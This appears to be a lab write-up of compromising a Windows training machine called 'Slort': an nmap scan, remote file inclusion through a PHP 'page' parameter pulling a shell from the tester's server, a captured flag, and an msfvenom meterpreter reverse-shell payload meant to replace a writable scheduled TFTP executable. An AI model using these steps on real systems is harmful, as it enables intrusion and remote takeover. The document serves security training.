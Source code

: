 ## NMAP

```NMAP-Slort
??$ cat Slort.nmap 
# Nmap 7.94SVN scan initiated Sun Jul 28 14:40:09 2024 as: nmap -sC -sV -Pn -p- -oA Slort 192.168.55.53
Nmap scan report for 192.168.55.53
Host is up (0.0010s latency).
Not shown: 65520 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql?
| fingerprint-strings: 
|   NULL, X11Probe: 
|_    Host '192.168.49.55' is not allowed to connect to this MariaDB server
4443/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.55.53:4443/dashboard/
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8080/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.55.53:8080/dashboard/
|_http-open-proxy: Proxy might be redirecting requests
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.94SVN%I=7%D=7/28%Time=66A65856%P=x86_64-pc-linux-gnu%r
SF:(NULL,4C,"H\0\0\x01\xffj\x04Host\x20'192\.168\.49\.55'\x20is\x20not\x20
SF:allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(X11Prob
SF:e,4C,"H\0\0\x01\xffj\x04Host\x20'192\.168\.49\.55'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## 4443

Found that it's XAMPP with phpmyadmin only available on localhost
BUT http://192.168.55.53:4443/site/index.php?page=main.php exists as a website
?page=x.php gives file inclusion

Testing Rmote File Inclusion, made local php test.php file
`python -m http.server 80`

Followed by setting page GET parameter to:
`index.php?page=http://192.168.49.55/test.php`

Used IvanSicenk shell due to Windows not Linux

Got Local Shell

```local-slort
C:\Users\rupert\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 6E11-8C59

 Directory of C:\Users\rupert\Desktop

05/04/2022  01:53 AM    <DIR>          .
05/04/2022  01:53 AM    <DIR>          ..
07/28/2024  07:38 AM                34 local.txt
               1 File(s)             34 bytes
               2 Dir(s)  28,624,515,072 bytes free

C:\Users\rupert\Desktop>type local.txt
1d658995ae100cef6f252277ebd3eceb
```

## PrivEsc

Found nothing great from WinPeaSS

Found C:\\Backup folder with interesting file

```
PS C:\> cd Backup
PS C:\Backup> dir


    Directory: C:\Backup


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         6/12/2020   7:45 AM          11304 backup.txt                                                           
-a----         6/12/2020   7:45 AM             73 info.txt                                                             
-a----         6/23/2020   7:49 PM          73802 TFTP.EXE                                                             


PS C:\Backup> type info.txt
Run every 5 minutes:
C:\Backup\TFTP.EXE -i 192.168.234.57 get backup.txt
```

Get-ACL on file shows perms:

```
PS C:\Backup> GET-ACL TFTP.EXE        Directory: C:\BackupPath     Owner        Access                                                                                           ----     -----        ------                                                                                           TFTP.EXE SLORT\rupert BUILTIN\Users Allow  FullControl... 
```

msfvenom an EXE and use that

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.49.55 LPORT=9001 -f exe -o reverse.exe`
